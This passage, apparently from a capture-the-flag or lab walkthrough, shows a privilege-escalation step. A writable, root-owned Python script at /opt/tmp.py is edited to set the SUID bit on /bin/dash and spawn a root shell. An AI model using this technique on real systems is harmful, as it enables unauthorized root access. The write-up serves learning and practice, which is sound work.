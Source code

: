 Since I have write permissions and `/opt/tmp.py` is owned by root, I will edit the script and set the SUID bit on `/bin/dash` to spawn a root shell.
```
#!/usr/bin/env python
import os
import sys
try:
	
	os.system('chmod +u+s /bin/dash')
except:
	sys.exit()
```

Getting root

![image](https://user-images.githubusercontent.com/58801175/110847148-6aca1800-8261-11eb-93d8-62c3ea91c1df.png)

